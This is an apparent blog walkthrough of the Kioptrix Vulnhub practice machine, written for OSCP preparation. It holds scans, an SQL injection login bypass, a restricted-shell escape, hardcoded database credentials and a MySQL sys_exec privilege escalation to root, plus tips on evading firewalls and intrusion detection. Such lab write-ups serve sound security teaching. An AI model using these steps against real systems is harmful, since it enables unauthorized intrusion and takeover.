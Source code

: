 ```yaml
---
title: "Kioptrix #3 Walkthrough"
author: alex
date: Fri 28 Jul 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-kioptrix-3-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.3**. Or Kioptrix #3. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthroughs: **[Kioptrix #1](/posts/kioptrix-1-walkthrough)** and **[Kioptrix #2](/posts/kioptrix-2-walkthrough)**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.40    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.40
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.40
Host is up (0.00049s latency).
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)

PORT    STATE SERVICE     VERSION

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)

80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open              Samba smbd 3.0.28a (workgroup: WORKGROUP)

MAC Address: 08:00:27:B4:0C:E8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.100 days (since Tue Feb  8 19:33:43 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=205 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h59m58s, deviation: 2h49m42s, median: 1h59m58s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-20T18:58:17-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX4<00>        Flags: <unique><active>
|   KIOPTRIX4<03>        Flags: <unique><active>
|   KIOPTRIX4<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Let's open the browser and search for http://192.168.1.40. We find a login page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.40 -t 10`. And the results show there's a directory named *john* and another named *robert*: `http://192.168.1.40/john/` & `http://192.168.1.40/robert/`.

![Directories](/kioptrix-gobuster.png)

- **Port 139/445:** Our lovely and insecure Samba ports. We are going to further enumerate Samba with Nmap: `sudo nmap --script smb-enum-users -v 192.168.1.40`.

![Samba Users](/kioptrix-smb-users.png)

Now we have some users to try to log in. Back to the login page, let's try some **SQLi**. Starting with *john* as username and the legendary `' OR '1'='1'` as the password.

![Member Page](/logged-in.png)

Yay, We have a password! Let's try to log in with SSH: 

```bash
sudo ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-rsa -c aes128-cbc john@192.168.1.40
```

And now we're in! As we can see. we don't have a full working shell, it just allows us to use a few commands and stay in `/home/john`, otherwise we would be kicked out. Now we should scape this limited shell. Thanks to the `echo` command we can log other commands into the system bypassing the restriction: 

```bash
echo os.system('/bin/bash')
```

Ok, now we have a full shell. First things first, let's check if we can run **sudo** and what is already running as **root**. Running `sudo -l` we make sure that we cannot run **sudo**. Now let's check the processes that are running as root: `ps -elf | grep 'root'`. Now we see that **MySQL** is running as **root**.

Let's head to `/var/www` and `cat` the `checklogin.php` to see if any credentials are hardcoded. And yes! Now we can access the database with the credentials with `root` as user and no password: `mysql -h localhost -u root -p`.

Now we can see what databases we have: `show databases;`. And as **MySQL** is running as root and we have root access to it, what we can do is to try to add *john* to the *admin* group: 

```sql
select sys_exec('usermod -a -G admin john')
```

To check if it worked, exit MySQL and run `sudo su`. When prompted for john's password use *MyNameIsJohn* and... voilà! We have **root** access!
